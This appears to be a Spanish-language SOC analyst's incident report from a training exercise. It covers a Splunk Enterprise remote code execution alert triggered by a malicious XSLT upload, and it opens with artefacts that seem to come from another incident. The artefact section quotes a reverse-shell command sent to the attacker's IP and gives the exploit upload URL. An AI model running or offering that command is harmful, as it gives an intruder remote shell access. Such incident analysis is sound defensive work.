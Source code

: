 ### Artefactos

![alt text](image-6.png)

- **Hash del Archivo:** cd2ba296828660ecd07a36e8931b851dda0802069ed926b3161745aae9aa6daa

- **Dirección IP de Origen:** 172.16.17.72

- **Proceso de Origen:** EmailDownloader.exe



## Informe de Incidente - Evento 201

---

### Identificación del Incidente

- **Descripción:** Se detectó una ejecución remota de código en Splunk Enterprise a través de la carga de archivos maliciosos utilizando XSLT por parte de un usuario no autorizado.
- **EventID:** 201
- **Hora del Evento:** Noviembre 21, 2023, 12:24 PM
- **Regla Detectada:** SOC239 - Remote Code Execution Detected in Splunk Enterprise
- **Nivel de Alerta:** Analista de Seguridad
- **Hostname:** Splunk Enterprise
- **Dirección IP de Origen:** 180.101.88.240
- **Dirección IP de Destino:** 172.16.20.13
- **HTTP Request Method:** POST
- **URL Solicitada:** http://18.219.80.54:8000/en-US/splunkd/__upload/indexing/preview?output_mode=json&props.NO_BINARY_CHECK=1&input.path=shell.xsl
- **Ruta del Archivo Disparador:** /opt/splunk/var/run/splunk/dispatch/1700556926.3/shell.xsl
- **Razón de Activación:** Se detectó una carga de archivos XSLT maliciosos en Splunk Enterprise con el potencial de desencadenar una ejecución remota de código.
- **Acción del Dispositivo:** Permitida

### Análisis del Incidente

#### Tipo de Ataque: Ejecución Remota de Código mediante xml (RCE)

El incidente implica la ejecución remota de código en Splunk Enterprise mediante la carga de archivos maliciosos utilizando XSLT por parte de un usuario no autorizado. Esta acción puede resultar en un compromiso significativo de la seguridad de la plataforma Splunk y poner en riesgo la integridad y confidencialidad de los datos.

#### Evaluación de Artefactos

Se encontraron dos archivos asociados al incidente:

- **shell.sh:** Contiene el siguiente comando: `sh -i >& /dev/tcp/180.101.88.240/1923 0>&1`, lo que indica un intento de establecer una conexión de shell inversa.
- **shell.xsl:** Contiene código XSLT diseñado para realizar una inyección XML externa (XXE), específicamente un ataque de inyección de entidad externa XML.
